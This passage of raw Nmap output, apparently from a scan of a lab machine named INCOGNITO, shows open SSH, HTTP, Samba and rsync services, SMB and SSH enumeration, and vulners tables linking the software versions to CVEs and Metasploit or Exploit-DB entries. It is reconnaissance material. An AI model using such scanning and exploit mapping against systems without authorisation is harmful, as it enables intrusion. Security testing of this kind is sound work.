|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	*EXPLOIT*
|     	CVE-2021-26690	5.0	https://vulners.com/cve/CVE-2021-26690
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-17567	5.0	https://vulners.com/cve/CVE-2019-17567
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-17189	5.0	https://vulners.com/cve/CVE-2018-17189
|     	CVE-2018-1333	5.0	https://vulners.com/cve/CVE-2018-1333
|     	CVE-2018-1303	5.0	https://vulners.com/cve/CVE-2018-1303
|     	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	4.9	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	*EXPLOIT*
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	MSF:ILITIES/UBUNTU-CVE-2018-1302/	4.3	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1302/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1301/	4.3	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1301/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	*EXPLOIT*
|     	EDB-ID:47688	4.3	https://vulners.com/exploitdb/EDB-ID:47688	*EXPLOIT*
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2018-1302	4.3	https://vulners.com/cve/CVE-2018-1302
|     	CVE-2018-1301	4.3	https://vulners.com/cve/CVE-2018-1301
|     	CVE-2018-11763	4.3	https://vulners.com/cve/CVE-2018-11763
|     	1337DAY-ID-33575	4.3	https://vulners.com/zdt/1337DAY-ID-33575	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/	*EXPLOIT*
|     	CVE-2018-1283	3.5	https://vulners.com/cve/CVE-2018-1283
|     	CVE-2020-13938	2.1	https://vulners.com/cve/CVE-2020-13938
|     	PACKETSTORM:152441	0.0	https://vulners.com/packetstorm/PACKETSTORM:152441	*EXPLOIT*
|     	EDB-ID:46676	0.0	https://vulners.com/exploitdb/EDB-ID:46676	*EXPLOIT*
|     	1337DAY-ID-663	0.0	https://vulners.com/zdt/1337DAY-ID-663	*EXPLOIT*
|     	1337DAY-ID-601	0.0	https://vulners.com/zdt/1337DAY-ID-601	*EXPLOIT*
|     	1337DAY-ID-4533	0.0	https://vulners.com/zdt/1337DAY-ID-4533	*EXPLOIT*
|     	1337DAY-ID-3109	0.0	https://vulners.com/zdt/1337DAY-ID-3109	*EXPLOIT*
|_    	1337DAY-ID-2237	0.0	https://vulners.com/zdt/1337DAY-ID-2237	*EXPLOIT*
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       syn-ack ttl 61 (protocol version 31)
|_banner: @RSYNCD: 31.0
| rsync-list-modules: 
|_  Conf           	All Confs
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=22%CT=1%CU=39203%PV=Y%DS=4%DC=T%G=Y%TM=611716D
OS:4%P=i686-pc-windows-windows)SEQ(SP=103%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)SEQ(
OS:SP=103%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ(CI=Z%II=I)OPS(O1=M508ST11NW
OS:6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST
OS:11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40
OS:%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R
OS:=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| dns-blacklist: 
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
|_ipidseq: ERROR: Script execution failed (use -d to debug)
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
| nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   INCOGNITO<00>        Flags: <unique><active>
|   INCOGNITO<03>        Flags: <unique><active>
|   INCOGNITO<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60988/tcp): CLEAN (Timeout)
|   Check 2 (port 58531/tcp): CLEAN (Timeout)
|   Check 3 (port 42650/udp): CLEAN (Timeout)
|   Check 4 (port 19500/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_path-mtu: ERROR: Script execution failed (use -d to debug)
|_qscan: ERROR: Script execution failed (use -d to debug)
| smb-mbenum: 
|   DFS Root
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Master Browser
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Print server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server service
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Unix server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Windows NT/2000/XP/2003 server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Workstation
|_    INCOGNITO  0.0  incognito server (Samba, Ubuntu)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-14T01:00:21+00:00
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.10
|     3.00
|     3.02
|_    3.11
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-capabilities: 
|   2.02: 
|     Distributed File System
|   2.10: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.00: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.02: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.11: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T01:00:23
|_  start_date: N/A
| traceroute-geolocation: 
|   HOP  RTT     ADDRESS       GEOLOCATION
|   1    97.00   10.4.0.1      - ,- 
|   2    ...
|   3    ...
|_  4    419.00  10.10.76.228  - ,- 

TRACEROUTE (using port 20/tcp)
HOP RTT       ADDRESS
1   97.00 ms  10.4.0.1
2   ... 3
4   419.00 ms 10.10.76.228

Nmap scan report for 10.10.76.228
Host is up, received user-set (0.40s latency).
Scanned at 2021-08-14 09:05:24 Malay Peninsula Standard Time for 554s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDjT/lRIkM7TFdpO6bwrOH8B0fB1kVslwfc/jdO+WtRiic1J8hDXzLatrXeBpzFqWveVmMI84dUhmidyBTk+jIksonSxB6IrLxCw+clRTQOUGXYw6iu3DiVZ6Xr/BlnxscgGuFMEvYd7E2ADyyVY/HDvpPMIv7SrDxfd+UNXf9yELZbsgY9CEqBuqT/3Ka4lt6ecslpcfMbkhZdiTgYnZ9EMrcmJlKcEXMq/tliZt5VuV7nxOEqKi1LfmgeIcl48Mok1sPCro+QsVfR5BvJPilLIfC35HoaBF1tyIdbzvZLfj/iCB/EhhtMqLZoPB2l/fg7RQ9soXK1rYgRbM0x7sv7
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGW8YbCvrlt/1rWQ4pObroj9o9vLbiGbYb/xxAjX/HoTxGUGYF/lYBCbZtmv8Fnkfs5Lg6K5MIHjjd/jpzNDQOg=
|   256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKxJeDTFMHsXaGHyZ8lSFpxm8VpawK1rvSDY0lbifD8e
| ssh2-enum-algos: 
|   kex_algorithms: (10)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|     	EDB-ID:21018	10.0	https://vulners.com/exploitdb/EDB-ID:21018	*EXPLOIT*
|     	CVE-2001-0554	10.0	https://vulners.com/cve/CVE-2001-0554
|     	MSF:ILITIES/UBUNTU-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/SUSE-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/SUSE-CVE-2019-25017/	5.8	https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2019-25017/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT-OPENSHIFT-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/REDHAT-OPENSHIFT-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/OPENBSD-OPENSSH-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/IBM-AIX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/IBM-AIX-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/GENTOO-LINUX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/F5-BIG-IP-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON_LINUX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/AMAZON_LINUX-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2019-6111/	*EXPLOIT*
|     	MSF:ILITIES/ALPINE-LINUX-CVE-2019-6111/	5.8	https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2019-6111/	*EXPLOIT*
|     	EXPLOITPACK:98FE96309F9524B8C84C508837551A19	5.8	https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19	*EXPLOIT*
|     	EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97	5.8	https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97	*EXPLOIT*
|     	EDB-ID:46516	5.8	https://vulners.com/exploitdb/EDB-ID:46516	*EXPLOIT*
|     	CVE-2019-6111	5.8	https://vulners.com/cve/CVE-2019-6111
|     	SSH_ENUM	5.0	https://vulners.com/canvas/SSH_ENUM	*EXPLOIT*
|     	PACKETSTORM:150621	5.0	https://vulners.com/packetstorm/PACKETSTORM:150621	*EXPLOIT*
|     	MSF:AUXILIARY/SCANNER/SSH/SSH_ENUMUSERS	5.0	https://vulners.com/metasploit/MSF:AUXILIARY/SCANNER/SSH/SSH_ENUMUSERS	*EXPLOIT*
|     	EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0	5.0	https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0	*EXPLOIT*
|     	EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283	5.0	https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283	*EXPLOIT*
|     	EDB-ID:45939	5.0	https://vulners.com/exploitdb/EDB-ID:45939	*EXPLOIT*
|     	CVE-2018-15919	5.0	https://vulners.com/cve/CVE-2018-15919
|     	CVE-2018-15473	5.0	https://vulners.com/cve/CVE-2018-15473
|     	1337DAY-ID-31730	5.0	https://vulners.com/zdt/1337DAY-ID-31730	*EXPLOIT*
|     	EDB-ID:45233	4.6	https://vulners.com/exploitdb/EDB-ID:45233	*EXPLOIT*
|     	MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2007-2768	4.3	https://vulners.com/cve/CVE-2007-2768
|     	CVE-2019-6110	4.0	https://vulners.com/cve/CVE-2019-6110
|     	CVE-2019-6109	4.0	https://vulners.com/cve/CVE-2019-6109
|     	CVE-2018-20685	2.6	https://vulners.com/cve/CVE-2018-20685
|     	PACKETSTORM:151227	0.0	https://vulners.com/packetstorm/PACKETSTORM:151227	*EXPLOIT*
|     	EDB-ID:46193	0.0	https://vulners.com/exploitdb/EDB-ID:46193	*EXPLOIT*
|     	1337DAY-ID-32009	0.0	https://vulners.com/zdt/1337DAY-ID-32009	*EXPLOIT*
|_    	1337DAY-ID-30937	0.0	https://vulners.com/zdt/1337DAY-ID-30937	*EXPLOIT*
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.76.228
|     
|     Path: http://10.10.76.228:80/
|     Line number: 2
|     Comment: 
|         <!--
|             Modified from the Debian original for Ubuntu
|             Last updated: 2016-11-16
|             See: https://launchpad.net/bugs/1288690
|           -->
|     
|     Path: http://10.10.76.228:80/
|     Line number: 192
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|_        -->
|_http-date: Sat, 14 Aug 2021 01:09:45 GMT; +1s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-grep: 
|   (1) http://10.10.76.228:80/manual: 
|     (1) ip: 
|_      + 10.10.76.228
| http-headers: 
|   Date: Sat, 14 Aug 2021 01:09:42 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-malware-host: Host appears to be clean
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 89c9e595f3f55983358705e04973c326
|_Credits query returned unknown hash 89c9e595f3f55983358705e04973c326
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|     	CVE-2021-26691	7.5	https://vulners.com/cve/CVE-2021-26691
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	*EXPLOIT*
|     	EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	7.2	https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	*EXPLOIT*
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	1337DAY-ID-32502	7.2	https://vulners.com/zdt/1337DAY-ID-32502	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/SUSE-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/	*EXPLOIT*
|     	CVE-2020-35452	6.8	https://vulners.com/cve/CVE-2020-35452
|     	CVE-2018-1312	6.8	https://vulners.com/cve/CVE-2018-1312
|     	CVE-2017-15715	6.8	https://vulners.com/cve/CVE-2017-15715
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
